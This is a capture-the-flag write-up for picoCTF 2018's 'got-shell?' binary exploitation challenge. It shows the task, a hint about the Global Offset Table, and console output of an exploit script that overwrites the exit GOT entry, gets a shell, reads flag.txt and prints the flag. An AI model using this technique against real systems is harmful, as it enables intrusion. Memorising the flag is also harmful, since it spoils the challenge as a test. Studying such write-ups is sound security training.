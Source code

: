 # got-shell? - Points: 350 - (Solves: 213)

Can you authenticate to this [service][1] and get the flag?
Connect to it with nc 2018shell2.picoctf.com 27952.
[Source][2]

[1]: https://2018shell2.picoctf.com/static/07209d42cd68512a23e58e1b82f649ba/auth
[2]: https://2018shell2.picoctf.com/static/07209d42cd68512a23e58e1b82f649ba/auth.c

## Hints

Ever heard of the Global Offset Table?

---

```sh
% python xpwn.py
[*] '/home/zzzz/auth'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 2018shell2.picoctf.com on port 27952: Done
[*] GOT  exit : 0x804a014
[*] ADDR win  : 0x804854b
[+] Rejoice me!
[*] Switching to interactive mode
total 20
-rwxr-sr-x 1 hacksports got-shell-_0 7600 Sep 28 07:48 auth
-rw-rw-r-- 1 hacksports hacksports    697 Sep 28 07:48 auth.c
-r--r----- 1 hacksports got-shell-_0   42 Sep 28 07:48 flag.txt
-rwxr-sr-x 1 hacksports got-shell-_0  113 Sep 28 07:48 xinet_startup.sh
$ cat flag.txt
picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_d496409a}
```
